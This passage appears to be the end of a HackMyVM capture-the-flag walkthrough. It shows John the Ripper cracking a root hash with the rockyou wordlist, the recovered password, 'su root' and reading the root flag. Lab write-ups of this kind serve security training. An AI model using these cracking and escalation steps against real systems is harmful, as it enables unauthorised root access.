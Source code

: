 `john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt ./root_unshadowed.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qazwsxedc        (root) ←
1g 0:00:00:06 DONE (2024-10-16 13:01) 0.1644g/s 331.5p/s 331.5c/s 331.5C/s amore..jesusfreak
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`su root`:
```
Password: ←
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) groups=0(root) ←
```

`cd /root`

`ls -alps`:
```
total 288
  4 drwx------  4 root root   4096 Mar  3  2024 ./
264 drwxr-xr-x 18 root root 266240 May 28 11:22 ../
  0 lrwxrwxrwx  1 root root      9 Feb 26  2024 .bash_history -> /dev/null
  4 -rw-r--r--  1 root root    571 Apr 10  2021 .bashrc
  4 drwxr-xr-x  3 root root   4096 Mar  2  2024 .local/
  4 -rw-r--r--  1 root root    162 Feb 26  2024 .profile
  4 -rwx------  1 root root     33 Feb 26  2024 root.txt ←
  4 drwx------  2 root root   4096 Feb 26  2024 .ssh/
```

`cat ./root.txt`:
```
ac7f9ad56c6a07f55cdfd71aec2e04d5 ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
